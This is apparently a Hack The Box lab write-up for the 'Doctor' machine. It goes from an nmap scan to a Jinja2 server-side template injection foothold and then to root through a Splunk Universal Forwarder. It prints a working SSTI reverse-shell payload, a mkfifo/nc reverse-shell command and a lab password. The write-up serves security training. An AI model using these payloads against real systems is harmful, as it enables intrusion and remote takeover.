Doctor
- Doctor is Easy Linux Machine and ip address is 10.10.10.209

Nmap
@arch ➜ cat doctor.nmap
# Nmap 7.80 scan initiated Sun Sep 27 20:34:17 2020 as: nmap -sSV -O -A -p 1-10000 -sC -Pn -oN doctor.nmap 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.17s latency).
Not shown: 9997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after: 2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (91%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%),
Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux
2.6.17) (87%), Linux 2.6.32 - 3.1 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 22/tcp)
HOP RTT ADDRESS
1 135.26 ms 10.10.16.1
2 202.62 ms 10.10.10.209
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 27 20:36:06 2020 -- 1 IP address (1 host up) scanned in 108.47 seconds
As nmap result port 22 (ssh),port 80 (apache httpd) and port 8080 (http Splunkd httpd ) are open
Web Enumeration
Nmap result show port 80 is open let check this, I found this webpage
- This is Simple Web Page , I found nothing interesting
After little scroll down this webpage , I found little interesting subdomain doctors.htb
I added this subdomain into my
/etc/hostsfile and I checked from browser , I saw this webpage I registered and login in into this , I saw like this
- I checked source code of /home , I found /archive subdir , It show in source code 
- I check
/archivebut it still blank page

In this , I found interesting this is New Message

- In this new message , We can create new post
- I posted simple post like in photo 
- I checked /archive page , It's still blak and I checked source code
- My posted message are shown in source code of /archive page but it's is not execute 
- Let Try to edit our posted message for execute
- I modified my message like this 
- It have been execute in /archive page
- In previous we checked source code of /archive page , our input message are reached into
item tag and title tag - We need to close this tag to execute our input that why I put "< / title > < / item > " in front of my message 
- Now I tried to test SSTI , Here is a great resource for SSTI (Server Site Template Injection)
I edited my message to
< / title>< / item>{{7*7}}

It's worked , I checked /archive page , It show 49 . This is the result of multiply of 7 and 7

Now let's use Exploit the SSTI by writing an evil config file To Get the reverse shell.
- I used this exploitation method
I used this
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__%}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.7\",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

Post that and start nc listener in your host
- Let's go to
/archivepage , Boom We got reverse shell

- I upgraded my reverse shell to interactive tty shell 
Getting Low Priv Shell
User
I uploaded linpeas.sh and run
After running linpeas and linpeas result , I found one interesting directory and one interesting file , this is
/var/log/apache2and/var/log/apache2/backup
I change directory into /var/log/apache2 directory and I checke backup file
- In this backup file , I found one password
Guitar123

I checked /etc/passwd and I found user shaun , I think this password can be Shaun password
I changed to user Shaun with password Guitar123 
Privileges Escalation
- I run linpeas as user Shaun again to find some userful interesting 
- I found splunk service is running as root
- After few mins searching , I found we can do Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations
- I found this useful repo
- I used this PySplunkWhisperer2_remote.py
I run this PySplunkWhisperer2_remote.py and Boom I got root

Payload = '/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X [port] >/tmp/f"'
Command = python2 PySplunkWhisperer2_remote.py --lhost 10.10.16.7 --host doctor.htb --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X [port] >/tmp/f"'
- Now I got root and I got root.txt flag 
- Finally I successfully owned this machine
Resources
| Topic | Resources |
|---|---|
| Server Side Template Injection | Here |
| Reverse Shell CheetSheet | Here |
| PySplunkWhisperer | Here |
| LinPEAS | Here |